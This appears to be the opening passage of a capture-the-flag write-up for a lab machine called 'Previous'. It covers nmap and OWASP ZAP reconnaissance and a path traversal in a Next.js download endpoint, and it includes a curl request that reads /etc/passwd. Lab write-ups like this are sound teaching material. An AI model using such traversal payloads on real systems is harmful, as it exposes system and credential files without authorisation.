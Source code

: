## Introduction

“Previous” is a modern Linux/Next.js CTF machine mimicking a DevOps environment prone to real-world web and infrastructure misconfigurations. The machine combines custom app logic, advanced JWT manipulation, a dangerous Terraform privilege escalation flaw, and multiple bypass vectors. This writeup assumes strong familiarity with modern web app assessment and privilege escalation on Linux, and it includes ZAP usage as part of the recon chain.

## Reconnaissance

## 1\. Network Scanning

Comprehensive service discovery reveals:

```plaintext
nmap -sC -sV -p- -T4 10.10.11.83 -oN nmap.txt
```

* 22/tcp: OpenSSH 8.9p1 (Ubuntu)
    
* 80/tcp: nginx 1.18.0 serving Next.js app
    

ZAP/WhatWeb web scan:

* Server: nginx (Ubuntu), Technology: Next.js
    
* Identified email in response: [jeremy@previous.htb](mailto:jeremy@previous.htb)
    

## Application Enumeration

## 2\. Path Traversal Discovery with ZAP

Using OWASP ZAP active scan on [http://previous.htb/](http://previous.htb/) revealed a critical path traversal vulnerability:

* Vulnerable endpoint:
    

```plaintext
/api/download?example=somefile.zip
```

ZAP’s Alert:

```plaintext
Path Traversal (High) at /api/download
Parameter: example
```

Manual confirmation exploiting LFI:

```plaintext
curl -s "http://previous.htb/api/download?example=../../../../../../etc/passwd"
```

* Returned `/etc/passwd`, confirming file read outside intended directory.
    